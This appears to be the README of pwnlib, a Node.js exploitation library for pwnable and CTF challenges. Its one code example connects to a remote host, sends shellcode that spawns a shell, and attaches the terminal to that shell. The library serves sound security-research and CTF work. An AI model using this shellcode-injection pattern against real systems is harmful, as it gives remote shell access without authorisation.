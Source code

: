 # pwnlib - pwnable libary for node.js

<img src="https://img.shields.io/github/last-commit/pribess/pwnlib?style=flat-square"></img>
<img src="https://img.shields.io/npm/dt/pwnlib?style=flat-square"></img>
<img src="https://img.shields.io/npm/l/pwnlib?style=flat-square">
<a href="https://discord.gg/Vdns6W3Bfz"><img src="https://img.shields.io/discord/986318660803108935?color=7289da&label=%20&logo=discord&logoColor=white&style=flat-square"></a>

```javascript
import * as pwn from "pwnlib";

const r = pwn.remote("example.com", 12345);

const sh = pwn.shcraft()
            .sh();

r.send(sh.bin);
pwn.stdio(r.stream);
```